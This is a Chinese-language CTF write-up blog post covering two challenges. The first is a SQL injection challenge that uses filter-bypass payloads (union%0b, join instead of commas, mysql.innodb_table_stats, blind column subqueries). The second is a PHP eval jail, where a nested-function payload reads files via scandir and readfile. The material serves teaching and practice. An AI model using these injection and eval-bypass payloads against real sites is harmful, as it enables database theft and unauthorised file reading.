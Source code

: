 ```yaml
---

layout:     post                    # 使用的布局（不需要改）
title:      对两道CTF题目的研究               # 标题 
subtitle:    #副标题
date:       2019-11-15              # 时间
author:     Von                      # 作者
header-img: img/post-bg-swift.jpg
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - CTF
    - SQL
    - PHP 

---
```


# sql注入
首先经过fuzz,得出主要过滤了以下字符:
```  sql
and(&&) or(||) , max min -- xor ^  updatexml sleep if (union select) 
```
首先union select我们可以用union%0b绕过,至于逗号我们可以用join绕过。但是最蛋疼的是or被过滤，而我们的information_schema中有or,看了wp才了解了一种新的方法。

在此之前我们先来学习一下相关的知识。

## mysql.innodb_table_stats表
在mysql5.6以上的版本中，会在系统库MYSQL库中存在两张与innodb相关的表innodb_index_stats和innodb_table_stats。
其中innodb_index_stats存储的是innodb引擎的库名,表名及其对应的索引名称，也就是和information_schema.schemata差不多。
innodb_table_stats存储的是innodb引擎的库名和表名,也就是和information_schema.tables差不多。
其结构如下:
![](/img/SQLI1.png)
那么也就意味着我们可以在注入中使用如:
``` sql
group_concat(table_name) from mysql.innodb_table_stats where database_name = database()
```
来代替:
``` sql
group_concat(table_name) from information_schema.tables where table_schema = database()
```
当然，这种方法的缺点就是它没有像information_schema.columns一样的表，所以没有办法用这种方法爆出列名，因此就需要借助我们接下来的子查询了。

## 子查询
> 子查询是将一个查询语句嵌套在另一个查询语句中。在特定情况下，一个查询语句的条件需要另一个查询语句来获取，内层查询(inner query)语句的查询结果，可以为外层查询(outer query)语句提供查询条件。

我们先来看一个例子:
``` sql
select 1,2,3,4,5,6,7,8 union select * from users
select (select 1)a,(select 2)b,(select 3)c,(select 4)d,(select 5)e,(select 6)f,(select 7)g,(select 8)h union select * from users
```
![](/img/SQLI2.png)
可以看出，在我们不知道列名的情况下我们得到了一个新表，并且将列名用1，2，3代替了。  
接下来就可以利用子查询将数据归并。
``` sql
select `3` from (select 1,2,3,4,5,6,7,8 union select * from users)a limit 1 offset 1;
select x.3 from (select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d,(select 5)e,(select 6)f,(select 7)g,(select 8)h union select * from users)x limit 1 offset 1;
```
![](/img/SQLI3.png)

## 解决
所以我们可以构造出相应的payload:
``` sql
/article.php?id=0' union%0bselect * from (select 1)a join (select 2)b join (select 3)c join (select 4)d%23
/article.php?id=0' union%0bselect * from (select 1)a join (select (select group_concat(table_name) from mysql.innodb_table_stats where database_name like database()))b join (select 3)c join (select 4)d%23
/article.php?id=0' union%0bselect * from (select 1)z join (select i.3 from (select * from (select 1)a join (select 2)b join (select 3)c union%0bselect * from fl111aa44a99g)i limit 1 offset 1)x join (select 3)v join (select 3)n%23
```

# Decade
先来看核心代码:
``` php
<?php 
$code=@$_POST['code'];
if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
                if (preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    @eval($code);
                }
                }
else
{
    echo 'NO first';
}

?>
```

题目通过正则表达式来限制传入函数的模式只能为a(b(c()));类似的嵌套模式。同时还过滤了一些函数。首先我们需要读取文件，想到的是scandir();
但是无论是读取本文件夹的文件还是其他的我们都需要有个.。首先我们就要来考虑如何通过各种函数获取.。  

## 获取.  
``` php
<?php
echo pos(localeconv());
# .
echo chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))));
# .
?>
```
通过上面两种操作我们可以得到.

## 进行chdir()
以上这两种办法可以得到.但是我们发现该文件夹里面只有一个index.php，所以我们需要跳到上一级目录，也就是进行chdir('...').  
至于如何获取...呢?scandir(’.’)扫描当前目录后回显是’.’,’…’，第二个元素是…,所以还需要通过chdir("…")来切换目录,chdir()的返回值为1.  

## 再次得到.
chdir()的返回值为1,我们需要从1得到.来让scandir()再次读取目录,我们可以用chr(46)得到.，所以问题就转化成如何从1得到46。  
其中一种方法是通过time()函数,该函数可参数可以随意传  
``` php
pos(localtime(time()));
```
该操作会返回一个0-60的值。  
故有最终payload:
``` php
code=echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));
```
多次发包即可得到flag.

# 参考文章
[CSDN的文章](https://blog.csdn.net/qq_40884727/article/details/102924492)  
[简书的文章](https://www.jianshu.com/p/6eba3370cfab)
